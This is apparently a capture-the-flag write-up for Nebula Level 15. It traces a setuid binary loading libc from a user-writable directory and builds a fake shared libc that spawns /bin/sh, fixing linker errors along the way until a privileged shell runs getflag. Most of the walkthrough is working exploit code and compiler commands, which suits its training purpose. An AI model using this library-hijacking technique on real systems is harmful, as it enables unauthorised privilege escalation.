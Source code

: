 # Nebula - Level 15

### About ###

>strace the binary at /home/flag15/flag15 and see if you spot anything out of the ordinary.
>
>You may wish to review how to "compile a shared library in linux" and how the libraries are loaded and processed by reviewing the dlopen manpage in depth.
>
>Clean up after yourself :)
>
>To do this level, log in as the level15 account with the password level15 . Files for this level can be found in /home/flag15.

### Solution ###


```bash
level15@nebula:/tmp$ strace /home/flag15/flag15
execve("/home/flag15/flag15", ["/home/flag15/flag15"], [/* 23 vars */]) = 0
brk(0)                                  = 0x8c62000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb789d000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
stat64("/var/tmp/flag15/tls/i686/sse2/cmov", {st_mode=S_IFDIR|0775, st_size=40, ...}) = 0
...
read(3, "\177ELF\1\1\1\0\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0p\222\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1544392, ...}) = 0
mmap2(NULL, 1554968, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x612000
mmap2(0x788000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x176) = 0x788000
mmap2(0x78b000, 10776, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x78b000
close(3)                                = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb789c000
set_thread_area({entry_number:-1 -> 6, base_addr:0xb789c8d0, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
mprotect(0x788000, 8192, PROT_READ)     = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0x597000, 4096, PROT_READ)     = 0
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb789b000
write(1, "strace it!\n", 11strace it!
)            = 11
exit_group(11)                          = ?
```

The executable `flag15` is looking for the shared library `libc.so.6` in multiple directories located in `/var/tmp/flag15/` where the user `level15` has write permissions. `libc.so.6` can be overwritten to spawn a shell with the permissions of `flag15`.

The first function of the libc called by `./flag15` is `__libc_start_main`, which can be found with `gdb` and `readelf`. 

```
Breakpoint 1, 0x08048348 in _start ()
(gdb) disass
Dump of assembler code for function _start:
=> 0x08048348 <+0>: xor    %ebp,%ebp
   0x0804834a <+2>: pop    %esi
   0x0804834b <+3>: mov    %esp,%ecx
   0x0804834d <+5>: and    $0xfffffff0,%esp
   0x08048350 <+8>: push   %eax
   0x08048351 <+9>: push   %esp
   0x08048352 <+10>:  push   %edx
   0x08048353 <+11>:  push   $0x8048470
   0x08048358 <+16>:  push   $0x8048400
   0x0804835d <+21>:  push   %ecx
   0x0804835e <+22>:  push   %esi
   0x0804835f <+23>:  push   $0x8048330
   0x08048364 <+28>:  call   0x8048320 <__libc_start_main@plt>
   0x08048369 <+33>:  hlt
   0x0804836a <+34>:  nop
   0x0804836b <+35>:  nop
   0x0804836c <+36>:  nop
   0x0804836d <+37>:  nop
   0x0804836e <+38>:  nop
   0x0804836f <+39>:  nop
End of assembler dump.
(gdb)
```

The code of the fake libc library looks as follows.

```c
#include <unistd.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
  system("/bin/sh");
}
```

The c file is first compiled as a shared library, but apparently it is not enough to make it spawn a shell.

```
level15@nebula:/tmp$ gcc -shared -fPIC libc.c -o /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6 && /home/flag15/flag15
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: no version information available (required by /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

Version information are needed. It can be solved with `gcc`'s `--version-script`.

```
gcc -shared -fPIC -Wl,--version-script libc.map libc.c -o /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6 && /home/flag15/flag15
```

```
level15@nebula:/tmp$ cat libc.map
GLIBC_2.0 {
};
GLIBC_2.1.3 {
};
```

```
level15@nebula:/tmp$ gcc -shared -fPIC -Wl,--version-script libc.map libc.c -o /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6 && /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

The function `__cxa_finalize` needs to be declared.

```c
#include <unistd.h>

void __cxa_finalize(void * d)
{}

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
system("/bin/sh");
}
```

```
level15@nebula:/tmp$ gcc -shared -fPIC -Wl,--version-script libc.map libc.c -o /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6 && /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

libgcc is required to call system which is why it need to be statically linked to the fake shared library with the option `-static-libgcc -Wl,-Bstatic`. Finally, `getflag` can be executed.

```
level15@nebula:/tmp$ gcc -shared -fPIC -Wl,--version-script libc.map -static-libgcc -Wl,-Bstatic libc.c -o /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6 && /home/flag15/flag15
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
